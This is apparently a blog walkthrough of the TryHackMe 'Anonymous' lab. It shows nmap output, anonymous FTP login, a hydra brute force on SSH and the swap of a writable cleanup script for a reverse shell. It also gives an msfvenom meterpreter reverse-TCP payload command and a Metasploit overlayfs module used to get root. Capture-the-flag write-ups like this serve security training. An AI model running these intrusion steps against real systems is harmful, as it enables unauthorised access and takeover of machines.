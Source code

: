 ```yaml
---
title: Anonymous
author: 0xskar
date: 2022-12-17 18:32:00 -0500
categories: [Tryhackme, Walkthrough]
tags: [Enumeration, security, linux, permissions, medium]
---
```


[https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous) - A website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

* * * 

<image src="/assets/anonymous01.jpg" alt="We are anonymous">

# pwn

starting off with nmap `sudo nmap -p- anonymous.thm -vvv`

```
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.3.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

first off seem to be able to access the ftp server with `anonymous:anonymous`. inside is a `/scripts/` folder lets check it.

this script seems to check for temporary files.if there are none then it will log nothing to delete. if there are than for every tempory file deleted it will log the date and the name of the removed file then end the script.

checking the smb share there seems to be a couple jpegs. puppos being a much bigger file while much smaller image... but i think these are a rabbit hole.

running `enum4linux` we find one user `namelessone`. going to run hydra on the ssh with rockyou.

perhaps we can replace the clean.sh with our own clean.sh and call a reverse shell. doing this gets us in as namelessone. lets upgrade to a more stable meterpreter shell. `msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf LHOST=0.0.0.0 LPORT=6666 -o rev.elf`. doing this we can also run `multi/recon/local_exploit_suggester` and hope for an easy win.

running `exploit/linux/local/cve_2021_3493_overlayfs` will get us root and the root flag.
